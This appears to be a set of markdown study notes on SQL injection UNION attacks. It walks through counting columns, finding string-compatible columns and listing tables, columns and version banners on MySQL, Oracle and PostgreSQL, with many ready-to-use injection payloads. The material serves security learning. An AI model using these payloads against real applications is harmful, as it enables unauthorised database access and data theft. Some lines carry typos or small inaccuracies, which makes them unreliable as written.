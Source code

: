 ## SQLi UNION attacks
For this attack to work:

- The individual queries must return the same number of columns
- The data types in each column must match between the individual queries.

### Steps to carrying out UNION attacks

1. **Determining the number of columns required**

There are two methods to determining the number of columns that are being returned by the original query

- Method 1: Using `ORDER BY`

`' ORDER BY 1` is supplied and the value keeps increasing to get the actual number of columns. When the specified column index exceeds the number of actual columns in the result set, the database returns an error.

- Method 2: Using `UNION SELECT`

_For MySQL databases_

`' UNION SELECT NULL--`
`' UNION SELECT NULL, NuLL--`

_For Oracle databases_

`' UNION SELECT NULL FROM DUAL--`; dual is an inbuilt table in oracle DB's

The instance of NULL supplied keeps increasing unti the right amount is achieved as as usual If the number of nulls does not match the number of columns, the database returns an error.

_NB:_ Method 2 is preferred because NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct.

2. **Finding Columns with a useful data type**

After determining the number of columns required, each column can then be probed to test whether it can hold string data; since the content we're interested in retrieving is of string data type. 

This can be done by submitting a series of `UNION SELECT` payloads that place a string value into each column in turn.

_Example:_ If the number of columns determined is four

`' UNION SELECT 'a', NULL, NULL, NULL--`

If the column data type is not compatible with string data, the injected query will cause a database error.

If an error does not occur, and the application's response contains some additional content including the injected string value, then the relevant column is suitable for retrieving string data.

3. **Retrieving Interesting data**

Once we determine the column that can hold string data then we can retrieve contents of the table; having known the columns that exists in it.

_Syntax:_ `' UNION SELECT column1, column2 FROM table_name--`

We can also retrieve multiple data in one column by concatenating and adding a separator (different for each database language). e.g `CONCAT(column1,'-',column2)` for MySQL databases

_NB:_ There's need to examine database structure to determine the column names before retrieving data

- Querying database type and version
MySQL, Microsoft - `' UNION SELECT @@version,NULL-- ` (If the server returns error, use `#` as comment)
Oracle - `' UNION SELECT BANNER,NULL FROM v$version-- `
PostgreSQL - `' UNION SELECT version()`

- Listing contents of the database: All other databases uses the same format for listing except oracle
Non-Oracle - `' UNION SELECT * FROM information_schema.tables` (lists all the tables in the db)
             `' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name = 'table1'` (list the columns in our table of interest, after which we can retrieve the data in them)

_Example:_

`' UNION SELECT table_name,null FROM information_schema.tables` (lists the table names in schema only after determining valid columns to be 2)

`' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name = table1` (lists the column names in schema only after determining valid columns to be 2)

Oracle - `' UNION SELECT * FROM all_tables` (lists all the tables)
         `' UNION SELECT * FROM all_tab_columns WHERE table_name = 'table1'` (lists the columns in a desired table)

_NB:_ Firstly determine the amount of columns present

